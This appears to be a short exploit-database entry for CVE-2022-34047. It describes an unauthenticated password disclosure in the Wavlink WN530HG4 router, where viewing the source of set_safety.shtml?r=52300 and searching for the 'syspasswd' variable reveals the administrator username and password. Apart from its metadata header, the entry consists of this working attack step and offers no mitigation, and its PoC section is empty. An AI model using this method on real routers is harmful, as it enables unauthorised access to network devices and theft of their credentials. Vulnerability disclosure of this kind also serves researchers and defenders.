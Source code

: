 # Exploit Title: wavelink WN530HG4 password disclosure
# Date: 2022-06-12
# Exploit Author: Ahmed Alroky
# Author Company : AIactive
# Version: M30HG4.V5030.191116
# Vendor home page : wavlink.com
# Authentication Required: No
# CVE : CVE-2022-34047

# Tested on: Windows


# Exploit

view-source:http://IP_address/set_safety.shtml?r=52300
search for var syspasswd=" 
you will find the username and the password

# Poc


